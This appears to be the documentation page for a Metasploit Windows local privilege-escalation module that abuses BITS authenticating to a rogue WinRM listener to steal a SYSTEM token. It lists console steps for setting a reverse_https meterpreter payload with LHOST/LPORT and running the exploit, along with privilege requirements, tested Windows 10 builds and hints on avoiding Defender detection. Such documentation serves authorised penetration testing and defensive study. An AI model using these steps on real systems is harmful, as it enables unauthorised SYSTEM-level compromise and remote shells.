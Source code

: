 ## Vulnerable Application

All windows platforms except Windows servers.

More precisely, **the availability of port 5985 is a necessary and sufficient condition**.

This module exploits BITS behavior which tries to authenticate on local WinRM server (port 5985) even if this service is not running.
As this module runs a fake service on WinRM port to steal a SYSTEM token, this port must be available.
However, WinRM service is natively running on windows servers preventing to run this exploit successfully.

Nevertheless, if WinRM service is disabled by an admin, or just killed, the operating system becomes vulnerable.

## Verification Steps

1. get a meterpreter session which has either SE_IMPERSONATE_NAME or SE_ASSIGNPRIMARYTOKEN_NAME privilege.
1. Do: `use exploits/windows/local/bits_ntlm_token_impersonation`
1. Do: `set SESSION <previous meterpreter session>`
1. Do: `set PAYLOAD windows/meterpreter/reverse_https`
1. Do: `set LHOST <your ip>`
1. Do: `set LPORT <your port>`
1. Do: `exploit`
1. A new meterpreter session should pop.

## Options

SESSION &#8594; index of the previous meterpreter session in through of which the exploit will be run.

## Scenarios

Will be added later
    
## Description

This module exploits BITS behavior which tries to connect to the local Windows Remote Management server (WinRM) every times it starts.
The exploit dll (loaded through a previous unprivilegied meterpreter session) launches a fake WinRM server which listens
on port 5985 and triggers BITS.
When BITS starts, it tries to authenticate to the Rogue WinRM server, which allows to steal a SYSTEM token.
This token is then used to launch a new process as SYSTEM user.
In the case of this exploit, powershell.exe is launched as SYSTEM and it downloads/executes an evil powershell script on
a second local http server.
Thus, this exploit doesn't write any file on the disk.

this exploit has been written from decoder's proof of concept:
https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/
https://github.com/antonioCoco/RogueWinRM

This exploit has been successfully tested on :
- Windows 10 (10.0 Build 19041) 32 bits
- Windows 10 (10.0 Build 18362) 64 bits

## Warnings

- **SE_IMPERSONATE_NAME or SE_ASSIGNPRIMARYTOKEN_NAME privs are required.**
- **BITS must not be already running.**
- As this dll exploit runs 2 services on the target (Fake WinRM on port 5985 and HTTP on port 80),
a firewall popup may appear on target screen. Thus, this exploit is not completely silent.
- A powershell windows flashes on target screen
- Windows servers are not vulnerable because a genuine WinRM service is already running.
- Powershell payload may be flagged by Windows defender. You can customize powershell payload with "show advanced"
